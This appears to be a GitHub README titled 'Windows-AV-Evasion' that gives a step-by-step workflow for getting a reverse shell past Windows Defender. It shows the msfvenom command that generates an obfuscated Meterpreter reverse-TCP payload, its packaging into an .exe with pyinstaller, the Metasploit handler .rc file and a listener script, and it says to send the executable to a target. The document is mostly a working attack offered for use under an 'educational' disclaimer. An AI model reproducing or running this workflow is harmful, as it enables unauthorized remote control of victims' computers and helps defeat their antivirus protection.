 # Windows-AV-Evasion
The easiest way to achieve a reverse shell bypassing Windows Defender 

<img width="324" height="324" alt="image" src="https://github.com/user-attachments/assets/18267b34-b490-4dec-b64b-f39866f96b88" />


> [!WARNING]  
> The entire repo and the information shown is only for educational and informational porpuses.

## Workflow
First, with `msfvenom` we make the payload as a `.py` file and using `python-reflection` in order to make the exploit already obfuscated. 

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py

```

Then we need to add the `ctypes` since it's needed by `python-reflection`
```shell
nano reload.py 
```
<img width="1086" height="119" alt="image" src="https://github.com/user-attachments/assets/52339303-b351-460f-ba66-131586371201" />


Now in order to generate a .exe file we can use pyinstaller from Windows or we can use pyinstaller within`wine` if we had it previously installer. 
 
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows: 
```powershell
pyinstaller -F hoax_shell.py --onefile
```

Once we have the .exe file, we run a meterpreter session either manually or with the next `.rc` file:

```shell
nano test.rc
```

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

```bash
msfconsole -r test.rc
```

Then we just send the `.exe` to the target machine and we can execute it either by using GUI (RDP) or using remote command execution.

![](img/rev_shell_AV_evasion.gif)


The script embed will start a meterpreter shell using meterpreter waiting for connections 

```shell
$ ./listiner.sh


[!] Missing parameters.


[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443

```
